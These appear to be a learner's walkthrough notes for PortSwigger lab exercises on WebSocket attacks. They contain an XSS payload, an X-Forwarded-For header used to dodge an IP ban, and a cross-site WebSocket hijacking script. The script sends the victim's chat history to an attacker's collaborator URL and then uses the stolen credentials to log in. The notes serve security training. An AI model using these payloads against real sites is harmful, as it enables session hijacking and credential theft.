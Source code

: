 ### Manipulating WebSocket messages to exploit vulnerabilities

Try to send a script tag, and see it's encoding the "<". 
So, intercept the message in the WebSocket tab, and replace your message with this one:
`<img src=1 onerror='alert(1)'>`

---
### Manipulating the WebSocket handshake to exploit vulnerabilities

1. Click "Live chat" and send a chat message.
2. In Burp Proxy, go to the WebSockets history tab, and observe that the chat message has been sent via a WebSocket message.
3. Right-click on the message and select "Send to Repeater".
4. Edit and resend the message containing a basic XSS payload, such as:
    
    `<img src=1 onerror='alert(1)'>`
5. Observe that the attack has been blocked, and that your WebSocket connection has been terminated.
6. Click "Reconnect", and observe that the connection attempt fails because your IP address has been banned.
7. Add the following header to the handshake request to spoof your IP address:
    
    `X-Forwarded-For: 1.1.1.1`
8. Click "Connect" to successfully reconnect the WebSocket.
9. Send a WebSocket message containing an obfuscated XSS payload, such as:

![[Pasted image 20240801104613.png]]

---
### Cross-site WebSocket hijacking

1. Click "Live chat" and send a chat message.
2. Reload the page.
3. In Burp Proxy, in the WebSockets history tab, observe that the "READY" command retrieves past chat messages from the server.
4. In Burp Proxy, in the HTTP history tab, find the WebSocket handshake request. Observe that the request has no [CSRF](https://portswigger.net/web-security/csrf) tokens.
5. Right-click on the handshake request and select "Copy URL".
6. In the browser, go to the exploit server and paste the following template into the "Body" section:

```js
<script> 
 var ws = new WebSocket('wss://your-websocket-url'); 
 ws.onopen = function() { 
	 ws.send("READY"); 
 }; 
 ws.onmessage = function(event) {
  fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data}); }; 
</script>
```

7. Replace `your-websocket-url` with the URL from the WebSocket handshake (`YOUR-LAB-ID.web-security-academy.net/chat`). Make sure you change the protocol from `https://` to `wss://`. Replace `your-collaborator-url` with a payload generated by [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator).
8. Click "View exploit".
9. Poll for interactions in the Collaborator tab. Verify that the attack has successfully retrieved your chat history and exfiltrated it via Burp Collaborator. For every message in the chat, Burp Collaborator has received an HTTP request. The request body contains the full contents of the chat message in JSON format. Note that these messages may not be received in the correct order.
10. Go back to the exploit server and deliver the exploit to the victim.
11. Poll for interactions in the Collaborator tab again. Observe that you've received more HTTP interactions containing the victim's chat history. Examine the messages and notice that one of them contains the victim's username and password.
12. Use the exfiltrated credentials to log in to the victim user's account.

